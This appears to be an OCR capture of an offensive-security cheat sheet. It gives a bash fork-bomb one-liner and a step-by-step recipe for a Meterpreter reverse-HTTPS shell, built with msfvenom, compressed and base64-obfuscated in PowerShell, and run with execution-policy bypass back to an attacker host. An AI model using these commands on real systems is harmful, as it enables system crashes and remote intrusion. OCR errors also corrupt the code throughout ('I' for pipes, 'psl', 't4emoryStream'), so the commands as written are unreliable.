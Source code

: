 **Fork Bomb**

Fork bomb script can create processes until the system crashes

```bash
: (){:I: & I;:
```

#### Launching Meterpreter in Memory with PowerShell

If you managed to get access to the target you can then establish a stable reverse connection back to your attacker machine using both Meterpreter and PowerShell. **Step 1** Create a PowerShell payload from your attacking machine

```bash
sudo msfvenom -p windows/meterpreter/reverse_https -f psh -a x86
LHOST=your-ip LPORT=443 shell.psl
```

**Step 2** Create another PowerShell script with the below content and choose any name you want. We will choose `encoded.ps1`

```powershell
# Get Contents of Script
$contents = Get-Content shell.psl

# Compress Script
$ms = New-Object IO.MemoryStream
$action = [IO.Compression.CompressionMode]: :Compress
$cs =New-Object IO.Compression.DeflateStream ($ms,$action)
$sw =New-Object IO.StreamWriter ($cs, [Text.Encoding] ::ASCII)
$contents I ForEach-Object {$sw.WriteLine($ I)
$sw.Close()

# Base64 Encode Stream
$code= [Convert]::ToBase64String($ms.ToArray())
$command= "Invoke-Expression '$(New-Object IO.StreamReader('$(New-Object IO. Compression. DeflateStream ('$(New-Object IO. t4emoryStream
(,'$ ( [Convert] :: FromBase64String('"$code'")))),[IO.Compression.Compressiont~ode]::Decompress) ),
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"

# Invoke-Expression $command
$bytes= [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# Write to Standard Out
Write-Host $encodedCommand
```

**Step 3** Store `shell.ps1` and `encoded.ps1` under the same directory. **Step 4** Execute the below command on the attacker machine

```powershell
powershell.exe -executionpolicy bypass encoded.psl
```
